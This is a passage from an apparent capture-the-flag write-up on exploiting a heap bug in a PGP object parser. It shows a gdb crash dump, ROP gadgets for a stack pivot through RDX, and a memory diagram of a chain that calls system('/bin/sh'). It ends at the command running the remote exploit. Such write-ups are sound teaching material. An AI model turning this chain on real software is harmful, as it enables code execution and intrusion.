 ```
   0x404c46 <-[PGPObjectV2 parseObjectFromData:]+185>:	mov    rbx,QWORD PTR [rbp-0x68]
Guessed arguments:
arg[0]: 0x11eba80 --> 0x11eaa60 --> 0x7fecae3f0700 --> 0x7fecadf701d8 (<default_malloc>:	push   rbp)
arg[1]: 0x60ad20 --> 0x400000065
arg[2]: 0x11eaad0 ("AAAAAAAA\300\346\036\001")
[------------------------------------stack-------------------------------------]
0000| 0x7ffc73cb5960 --> 0x40156b (<-[CCHBinaryDataReader initWithData:options:]>:	push   rbp)
0008| 0x7ffc73cb5968 --> 0x11eba80 --> 0x11eaa60 --> 0x7fecae3f0700 --> 0x7fecadf701d8 (<default_malloc>:	push   rbp)
0016| 0x7ffc73cb5970 --> 0x609310 --> 0xd00000065 ('e')
0024| 0x7ffc73cb5978 --> 0x11edf10 --> 0x608780 --> 0x608600 --> 0x7fecadc18f80 (0x00007fecadc18f80)
0032| 0x7ffc73cb5980 --> 0x11edf10 --> 0x608780 --> 0x608600 --> 0x7fecadc18f80 (0x00007fecadc18f80)
0040| 0x7ffc73cb5988 --> 0x7ffc73cb59d0 --> 0x7ffc73cb5a50 --> 0x7ffc73cb5aa0 --> 0x7ffc73cb5ae0 --> 0x0
0048| 0x7ffc73cb5990 --> 0x804
0056| 0x7ffc73cb5998 --> 0x11eba80 --> 0x11eaa60 --> 0x7fecae3f0700 --> 0x7fecadf701d8 (<default_malloc>:	push   rbp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
```
So, as we could anticipate, its trying to call the returned function, which we’ve set to `0x4444444444444444`.  Additionally, it appears that `RDX` points to some data we control (hence the `AAAAA....`).  In fact, the chunk labeled (`object_we_control`) in the diagram is what `RDX` points too.

I was able to get `one_gadget` to work locally, but not remotely.  However, when I sent in a simple `ret` gadget, the program did not crash remotely, which verified to me that our leaks and everything were working as intended.  
Eventually, I decided to pivot the stack to `RDX` and ROP from there.  I ended up finding the following gadget:
```
0x000000000018dbd1 : push rdx ; cmc ; jmp qword ptr [rdx]
```
Using this gadget, we can push `RDX` onto the stack, and then jump to the address pointed to by `RDX`.  Right now, thats `0x4141414141414141`, but we can set that to another gadget.  We have pushed the address of `RDX` on the stack, so we want to pop that into `RSP`.  Once we’ve pushed `RDX` and popped it into `RSP`, the address in `RDX` becomes our new stack.  The first two `QWORD`s at `RDX` are the gadget we just called, and a heap pointer (refer to the diagram below for reference).  So we also want to pop those two off our new stack, and then we can ROP.  I chose to use this gadget.
```
0x0000000000024121 : pop rsp ; pop r13 ; pop r14 ; ret
```
And here is a modified memory diagram from above.
```
            object_we_control (RDX)
         +-----------------------------------+
+--> +00 | pop rsp ; pop r13 ; pop r14 ; ret |
|        +-----------------------------------+     +--------------------------------------+
|    +08 |         0x4343434343434343        + --> |                                      |
|        +-----------------------------------+     +-------------------+------------------+
|    +16 |           pop rdi ; ret           |                         |
|        +-----------------------------------+                         V
|    +24 |             "/bin/sh"             |               some function pointer
|        +-----------------------------------+     +--------------------------------------+
|    +32 |              system()             |     | push rdx ; cmc ; jmp qword ptr [rdx] |
+        +-----------------------------------+     +--------------------------------------+
     +40 |         some small number         |
         +-----------------------------------+
```
Running the final exploit:
```bash
fzzyhd@fzzyhd:> python exploit.py remote
```